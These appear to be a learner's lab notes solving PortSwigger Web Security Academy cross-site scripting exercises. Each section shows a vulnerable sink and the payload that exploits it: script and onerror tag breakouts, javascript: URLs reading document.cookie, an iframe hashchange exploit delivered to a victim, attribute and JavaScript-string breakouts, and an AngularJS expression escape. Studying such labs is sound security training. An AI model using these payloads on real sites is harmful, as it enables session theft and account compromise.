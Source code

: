 ### DOM XSS in `document.write` sink using source `location.search`
```js
// see that my search string ends up in <img> tag:

<img src="/resources/images/tracker.gif?searchTerms=adsf" q7yoldkbi="">

// adjust search string to inject xss via <img> tag

sadf"><script>alert(1)</script>
```

### DOM XSS in `innerHTML` sink using source `location.search`
```js
// view-source / inspect element
// see that my search string ends up in <span> tag:

<span id="searchMessage">fake</span>

// break out
// key: force an error to trigger "onerror"

<img src=1 onerror=alert(1)>
<audio src/onerror=alert(2)>

// other key notes: it's totally ok to inject javascript as-is into <span> tags
```

### DOM XSS in jQuery anchor `href` attribute sink using `location.search` source
```js
// see that '/feedback?returnPath=/' returns HTTP response with "src" calling "jquery":

<script src="/resources/js/jquery_1-8-2.js"></script>
<div class="is-linkback">
	<a id="backLink">Back</a>
</div>
<script>
	$(function() {
		$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
	});
</script>

// see that a <href> tag is being built, using the input passed to "returnPath"
// try inject random chars to "returnPath":

/feedback?returnPath=asdf

// see that the resulting "Back" link leads to:

https://0af3007a032c23bcc10958b000a10065.web-security-academy.net/asdf

// now inject 

/feedback?returnPath=javascript:alert(document.cookie) 

// now the "Back" link simply reads:

javascript:alert(document.cookie)

// note: this uses the `javascript:` protocol to run text as JavaScript instead of opening it as a normal link
// sauce: https://riptutorial.com/html/example/2120/link-that-runs-javascript
```

### DOM XSS in jQuery selector sink `$()` using a hashchange event
```js
// vulnerable portion:

<script src="/resources/js/jquery_1-8-2.js"></script>
<script src="/resources/js/jqueryMigrate_1-4-1.js"></script>
<script>
	$(window).on('hashchange', function(){
		var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
		if (post) post.get(0).scrollIntoView();
	});
</script>

// exploit via iframe (deliver to victim):

<iframe src="https://0a8200b703a078abc312925a0003009d.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

// test that "print()" does get called when this payload runs normally
// now deliver the payload
```

### Reflected XSS into attribute with angle brackets HTML-encoded [helpful but not direct sauce](https://www.secjuice.com/xss-arithmetic-operators-chaining-bypass-sanitization/)
```js
// normal "<h1>hola</h1>" injection becomes:

&lt;h1&gt;hola&lt;/h1&gt;

// try avoiding angular brackets altogether; study the environment closely
// notice that "hola" lands in a HTML attribute for an <input> tag:

<input type=text placeholder='Search the blog...' name=search value="hola">

// target that attribute; close it gracefully and inject an event

/?search="onmouseover="alert('hola')

// such that the <input> tag becomes:

<input type=text placeholder='Search the blog...' name=search value=""onmouseover="alert('hola')">
```

### Stored XSS into anchor `href` attribute with double quotes HTML-encoded
```js
// see the sink:

<a id="author" href="https://www.fake.com">fake</a>

// adjust "website" payload:

javascript:alert(1)

// now the href sink becomes:

<a id="author" href="javascript:alert('hola')">

// end of the day, it's due to lack of input validation on "website" field
```

### Reflected XSS into a JavaScript string with angle brackets HTML encoded
```js
// sink:

<script>
var searchTerms = 'asdf';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>

// break out of "encodeURIComponent()":

a'-alert('hola')-'

// sink becomes:

<script>
var searchTerms = 'a'-alert('hola')-'';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>

// turns out it's nothing to do with the "encodeURIComponent()" - we're targeting the "var searchTerms" instead
```

### DOM XSS in `document.write` sink using source `location.search` inside a select element
```js
// vulnerable portion:

<form id="stockCheckForm" action="/product/stock" method="POST">
	<input required type="hidden" name="productId" value="2">
	<script>
		var stores = ["London","Paris","Milan"];
		var store = (new URLSearchParams(window.location.search)).get('storeId'); //supply "storeId" in params
		document.write('<select name="storeId">');
		if(store) { //right here
			document.write('<option selected>'+store+'</option>');
		}
		for(var i=0;i<stores.length;i++) {
			if(stores[i] === store) {
				continue;
			}
			document.write('<option>'+stores[i]+'</option>');
		}
		document.write('</select>');
	</script>
	<button type="submit" class="button">Check stock</button>
</form>
<span id="stockCheckResult"></span>
<script src="/resources/js/stockCheckPayload.js"></script>
<script src="/resources/js/stockCheck.js"></script>

// payload

/product?productId=2&storeId=alert(1)

// now the list has "alert(1)", but nothing executes

/product?productId=2&storeId=javascript:alert(1)

// now the list has "javascript:alert(1)", but again nothing executes

/product?productId=2&storeId=<script>alert(1)</script>

// now it executes
```

### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded [sauce](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md#storedreflected-xss---simple-alert-in-angularjs)
```js
// nothing fancy - just see that there's a AngularJS being used:

/resources/js/angular_1-7-7.js

/*
 AngularJS v1.7.7
 (c) 2010-2018 Google, Inc. http://angularjs.org
 License: MIT
*/

// then just use this payload:

{{constructor.constructor('alert(1)')()}}

// how it looks like:

/?search=asdf{{constructor.constructor('alert(1)')()}}
```

